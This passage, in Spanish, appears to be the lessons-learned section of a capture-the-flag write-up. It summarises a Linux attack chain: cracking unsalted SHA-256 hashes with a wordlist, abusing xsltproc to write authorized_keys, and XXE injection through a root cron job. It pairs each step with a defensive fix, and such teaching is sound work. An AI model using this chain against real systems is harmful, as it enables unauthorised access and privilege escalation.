4. **Los hashes SHA-256 sin salt son vulnerables a ataques de diccionario**  
   Los hashes de la base de datos eran SHA-256 sin salt, lo que facilitó su crackeo con `rockyou.txt`. Las contraseñas deben almacenarse con algoritmos de hashing lentos (bcrypt, Argon2) y con salt.

5. **`xsltproc` puede ser usado para escribir archivos arbitrarios**  
   La posibilidad de ejecutar `xsltproc` como otro usuario permitió escribir en su `authorized_keys`. Los binarios que escriben archivos deben restringirse a rutas específicas.

6. **Los cron jobs que procesan archivos controlados por el usuario son peligrosos**  
   El cron job procesaba `/home/mensajes.xml` como `root`. Si un usuario puede modificar el archivo, puede inyectar contenido malicioso (como un XXE). Los cron jobs deben procesar archivos con permisos restringidos y validar su contenido.

7. **Las entidades externas XML (XXE) siguen siendo una vulnerabilidad vigente**  
   `xsltproc` no bloquea las entidades externas por defecto, lo que permitió leer archivos arbitrarios. Las aplicaciones que procesan XML deben deshabilitar las entidades externas.

8. **`pspy` es esencial para detectar procesos efímeros**  
   `ps aux` no mostraba el cron job porque se ejecutaba en fracciones de segundo. `pspy` usa `inotify` para detectar cada `execve()` y capturar procesos efímeros. Es una herramienta fundamental en la enumeración de sistemas Linux.

9. **La enumeración de grupos y permisos es clave**  
   La pertenencia al grupo `backupchat` permitió modificar `/home/mensajes.xml`, lo que habilitó el ataque XXE. Siempre se deben enumerar los grupos y buscar archivos con permisos de escritura para esos grupos.

